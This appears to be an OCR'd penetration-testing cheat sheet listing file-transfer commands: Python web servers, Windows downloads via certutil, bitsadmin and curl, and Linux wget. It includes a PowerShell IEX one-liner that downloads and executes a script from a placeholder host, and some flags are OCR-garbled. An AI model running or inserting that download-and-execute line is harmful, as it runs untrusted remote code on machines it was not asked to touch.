 # File transfer
Python we server
python -m SimpleHTTPServer 9000
python3 -m http.server 9000

# Windows file transfer
certutil.exe —urlcache —f http://<webpage>/file.txt file.txt

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

bitsadmin /transfer myDownloadJob /download /priority normal https://www.hkrefill.com/images/billboard/cheapselftake.gif "C:\Users\helpdesk\Downloads\cheap.gif"

curl  "https://www.hkrefill.com/images/billboard/cheapselftake.gif" --output abc.gif


powershell "IEX(New-Object Net.WebClient).downloadString('http://<webpage>:8000/file.txt')"

# Linux file transfer
wget http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

wget -O wget.zip http://ftp.gnu.org/gnu/wget/wget2-2.0.0.tar.gz

file contains dl link
wget -i download-linux.txt